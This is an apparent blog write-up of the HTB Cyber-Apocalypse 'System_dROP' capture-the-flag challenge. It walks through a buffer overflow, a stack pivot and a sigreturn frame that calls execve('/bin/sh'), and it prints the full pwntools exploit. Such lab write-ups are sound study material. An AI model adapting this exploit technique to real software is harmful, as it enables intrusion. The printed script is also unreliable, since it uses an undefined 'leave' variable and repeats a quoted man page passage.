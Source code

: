 ```yaml
---
layout: post
title:  "HTB Cyber-Apocalypse"
date:   2021-05-09 01:14:11 -0400
categories: HTB pwn writeup SROP
---
```

# System_dROP

Running this through Ghidra we see a very straight-forward buffer overflow. We have a buffer of 32 bytes, and the program reads in 256 bytes. Additionally, the title of the challenge hints at using the SROP technique to exploit this overflow.

![Ghidra Result](/assets/images/cy_ap/system_drop1.png "Ghidra Result")

Using vmmap in GDB we obtain more information. The stack is non-executable and we can write to the addresses of `0x00601000 - 0x00602000`. These addresses correspond to the `.bss` and `.data` sections of the binary.

![Ghidra Result](/assets/images/cy_ap/system_drop2.png "Ghidra Result")

Let's begin by drawing out the strategy we will take.
The SROP technique requires the ability to write a signal return frame to some area in memory, which we then call on to set the "context" of the program such as all the registers and flags.
It is a very powerful technique since it will allow us the ability to call any function.
The signal return frame is called by the sigret system call, so we need to place it before the frame.
The issue here is that we can only read in 256 bytes, but the syscall address is 8 bytes and the frame is 248.
Therefore this attack will require several reads.
Since we can't execute shell code anywhere in memory we should use the sig return frame to call execve.
This means we need to have the string `/bin/sh` saved somewhere and we need to set the RAX register to `0x3B`.
A quick search with ropper in gdb revealed that we do not have gadgets to set RAX.
However we do have gadgets for RDI and RSI so we can at least modify the first two arguments of the functions available to us.
This also means we can't change the amount of data that the read function will take, so we are limited to 256 bytes.
Since we can write to `.data`, we should store our materials there. First we will read in `/bin/sh`, followed by the syscall gadget, and finally the sigret frame.
By storing part of our ROP chain on the `.data` section, we will have to modify the stack pointer to point to there instead as well.
So lets begin writing our exploit by first listing out the addresses we will need:

```python
junk = b'0x41' * 8
offset = b'A' * 32
data_addr = 0x00601028
syscall = p64(0x0040053b)   # syscall; ret;
pop_rsp = p64(0x004005cd)   # pop rsp; pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x004005d3)   # pop rdi; ret;
pop_rsi = p64(0x004005d1)   # pop rsi; pop r15; ret;
read_addr = p64(0x00400440) # read; ret;
p64(0x0040056e)             # leave; ret;
```

Most of these should be self-explanatory. The offset was calculated by experimentation through GDB. Just pass in some patterned input greater than 32 bytes and see what part of the pattern overwrite the return address.
It is important to note that the RBP pointer is stored right before the return address.
We need to overwrite this RBP pointer so that we can modify the location of the stack.
Since we want the `.data` section to be our new stack, we should overwrite it with `data_addr`.
Since we got a segmentation fault at an input of 40 bytes, then we know the RBP value is at 32 bytes, hence the offset being 32.

Next lets prepare our first payload:

```python
# First read sets up second read, where we save /bin/sh to .data, and also rewrites rbp to .data
p1 = offset + p64(data_addr) + pop_rdi + p64(0x00) + pop_rsi + p64(data_addr) + p64(0x00) + read_addr

# We also need to save the syscall and sigret frame to .data section
p2 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8) + p64(0x00) + read_addr

# Need to do 1 more read to set EAX to 15 (sigret) and also pivot into our new stack
p3 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8 + 256) + p64(0x00) + read_addr + leave

payload = p1 + p2 + p3
```
The first part of the payload will set up the program to call read again so we can pass in `/bin/sh\x00` and will save it to the start of the `.data` section.
Remember that execve() requires a null terminated string as the first argument.
The second part of the payload is almost the same as the first, except that now we save the syscall gadget as well as the sig ret frame immediately after the `/bin/sh` string.
The last part of the payload is similar to the first in that we are again doing another read.
However, this time what we read doesn't matter.
We need to set the RAX register to the sigret system call `0xf` or 15 in decimal.
Since we have no gadgets available for this, we must utilize the return value of the read() function. According to the linux man page:

<em>
"
On success, the number of bytes read is returned (zero indicates
end of file), and the file position is advanced by this number.
It is not an error if this number is smaller than the number of
bytes requested; this may happen for example because fewer bytes
are actually available right now (maybe because we were close to
end-of-file, or because we are reading from a pipe, or from a
terminal), or because read() was interrupted by a signal.  See
also NOTES.
On error, -1 is returned, and errno is set to indicate the error.
In this case, it is left unspecified whether the file position
(if any) changes.On success, the number of bytes read is returned (zero indicates
end of file), and the file position is advanced by this number.
It is not an error if this number is smaller than the number of
bytes requested; this may happen for example because fewer bytes
are actually available right now (maybe because we were close to
end-of-file, or because we are reading from a pipe, or from a
terminal), or because read() was interrupted by a signal.  See
also NOTES.
On error, -1 is returned, and errno is set to indicate the error.
In this case, it is left unspecified whether the file position
(if any) changes.
"
</em>

Basically, if we send the program 15 bytes, then we set the RAX register with our desired value and thus we are able to call the sigret.
And that's what the third part of the payload allows us to do.
It also calls `leave;` which essentially resets the stack pointer to the value of RBP, which we have overwritten with `.data` section address.
So we have also set up our stack redirection.
Now lets set up our sig ret frame:

```python
frame = SigreturnFrame()
frame.rsp = data_addr + 8 + 256
frame.rbp = data_addr
frame.rip = 0x0040053b
frame.rax = 0x3b
frame.rdi = data_addr
frame.rsi = 0x00
frame.rdx = 0x00
```
Now lets go over what each of these values will accomplish.
We will change the RSP to point to the address after our frame, since that makes the most natural sense and mimics what a real program would.
This address does not matter too much, as long as you can read and write to it.
We set the RBP to point to the `.data` address, since that's what it was before the system call.
This address doesn't matter too much either.
The RIP register will point at the `syscall; ret;` gadget, so once the frame gets called we are call upon execve with all its arguments already set.
RAX is set to the syscall value of execve.
RDI is the address of `.data` because remember that is where our null terminated `/bin/sh` was written to.
And since we only need to set the first arg, then we can leave the others as null.
Now all that remains is to send our payloads. The full exploit can be viewed below.
An important thing to note is that the binary will continue to read until it has read 256 bytes, unless we put in a timer.
In order to save time I only used a timer for the last read and just filled up the buffer with junk in the others.

```python
#!/usr/bin/env python
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./system_drop')
context.clear(arch='amd64')

junk = b'0x41' * 8
offset = b'A' * 32
data_addr = 0x00601028
syscall = p64(0x0040053b)   # syscall; ret;
pop_rsp = p64(0x004005cd)   # pop rsp; pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x004005d3)   # pop rdi; ret;
pop_rsi = p64(0x004005d1)   # pop rsi; pop r15; ret;
read_addr = p64(0x00400440) # read; ret;
p64(0x0040056e)             # leave; ret;

# First read sets up second read, where we save /bin/sh to .data, and also rewrites rbp to .data
p1 = offset + p64(data_addr) + pop_rdi + p64(0x00) + pop_rsi + p64(data_addr) + p64(0x00) + read_addr 

# We also need to save the syscall and sigret frame to .data section
p2 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8) + p64(0x00) + read_addr

# Need to do 1 more read to set EAX to 15 (sigret) and also pivot into our new stack
p3 = pop_rdi + p64(0x00) + pop_rsi + p64(data_addr + 8 + 256) + p64(0x00) + read_addr + leave

frame = SigreturnFrame()
frame.rsp = data_addr + 8 + 256
frame.rbp = data_addr
frame.rip = 0x0040053b
frame.rax = 0x3b
frame.rdi = data_addr
frame.rsi = 0x00
frame.rdx = 0x00

io = exe.process()
payload = p1 + p2 + p3
io.send( payload + b'A' * (0x100 - len(payload)))

# 2nd read saves /bin/sh
io.send( "/bin/sh\x00" + "B" * (0x100 - 8))

# 3rd read saves the syscall + sigret frame
io.send(syscall + bytes(frame))

# 4th read sets RAX to 15:
io.send("E" * 15)
sleep(2)

io.interactive()
```
